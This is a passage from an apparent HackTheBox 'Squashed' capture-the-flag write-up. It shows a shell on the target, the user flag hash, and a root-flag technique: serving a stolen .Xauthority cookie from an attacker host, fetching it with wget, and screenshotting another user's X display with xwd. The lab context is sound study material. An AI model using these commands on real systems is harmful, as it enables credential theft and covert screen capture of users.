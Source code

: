 ```bash
drwxr-xr-x 2 alex www-data  4096 Jan 16 14:55 images
-rw-r----- 1 alex www-data 32532 Jan 16 14:55 index.html
drwxr-xr-x 2 alex www-data  4096 Jan 16 14:55 js
-rw-r--r-- 1 alex     1002    71 Jan 16 14:57 ok.php
alex@squashed:/var/www/html$ cd ~
cd ~
alex@squashed:/home/alex$ ls
ls
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
snap
user.txt
alex@squashed:/home/alex$ cat user.txt
cat user.txt
8a06d4b7db113c6a5fb492fbfb8753f8
```


# Root Flag

- Refer - https://book.hacktricks.xyz/network-services-pentesting/6000-pentesting-x11#screenshots-capturing

Enumerate Display

```bash
alex@squashed:/home/ross$ w
w
 15:09:45 up 15:33,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
ross     tty7     :0               Sun23   15:33m  1:19   0.04s /usr/libexec/gnome-session-binary --systemd --session=gnome
```

Start Http server

```bash
┌──(root㉿kali)-[~/squashed/www]
└─#  python3 -m http.server 80 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.191 - - [16/Jan/2023 10:14:29] "GET /.Xauthority HTTP/1.1" 200 -
```

Get `.Xauthority` and do screenshot

```bash
alex@squashed:/home/alex$ wget 10.10.14.41/.Xauthority

export XAUTHORITY=.Xauthority
xwd -root -screen -silent -display :0 > ok.xwd
cp ok.xwd /var/www/html
```
